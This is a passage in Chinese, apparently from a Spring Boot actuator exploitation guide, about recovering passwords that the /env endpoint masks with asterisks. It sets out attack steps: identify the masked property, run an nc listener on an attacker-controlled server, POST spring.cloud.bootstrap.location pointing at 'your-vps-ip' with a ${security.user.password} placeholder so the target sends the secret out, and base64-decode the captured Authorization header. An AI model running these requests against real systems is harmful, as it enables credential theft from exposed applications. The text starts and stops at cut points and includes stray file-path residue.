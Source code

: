 spring 2.x

```
POST /actuator/refresh
Content-Type: application/json

```



##### 步骤五： 解码属性值

正常的话，此时 nc 监听的服务器会收到目标发来的请求，其中包含类似如下 `Authorization` 头内容：

```
Authorization: Basic dmFsdWU6MTIzNDU2
```

将其中的 `dmFsdWU6MTIzNDU2`部分使用 base64 解码，即可获得类似明文值 `value:123456`，其中的 `123456` 即是目标星号 * 脱敏前的属性值明文。



### 0x05：获取被星号脱敏的密码的明文 (方法三)

> 访问 /env 接口时，spring actuator 会将一些带有敏感关键词(如 password、secret)的属性名对应的属性值用 * 号替换达到脱敏的效果

#### 利用条件：

- 通过 POST `/env` 设置属性触发目标对外网指定地址发起任意 http 请求
- 目标可以请求攻击者的服务器（请求可出外网）



#### 利用方法：

> 参考 UUUUnotfound 提出的 [issue-1](https://github.com/LandGrey/SpringBootVulExploit/issues/1)，可以在目标发外部 http 请求的过程中，在 url path 中利用占位符带出数据

##### 步骤一： 找到想要获取的属性名

GET 请求目标网站的 `/env` 或 `/actuator/env` 接口，搜索 `******` 关键词，找到想要获取的被星号 * 遮掩的属性值对应的属性名。



##### 步骤二： 使用 nc 监听 HTTP 请求

在自己控制的外网服务器上监听 80 端口：

```bash
nc -lvk 80
```



##### 步骤三： 触发对外 http 请求

- `spring.cloud.bootstrap.location` 方法（**同时适用于**明文数据中有特殊 url 字符的情况）：



spring 1.x

```
POST /env
Content-Type: application/x-www-form-urlencoded

spring.cloud.bootstrap.location=http://your-vps-ip/?=${security.user.password}
```
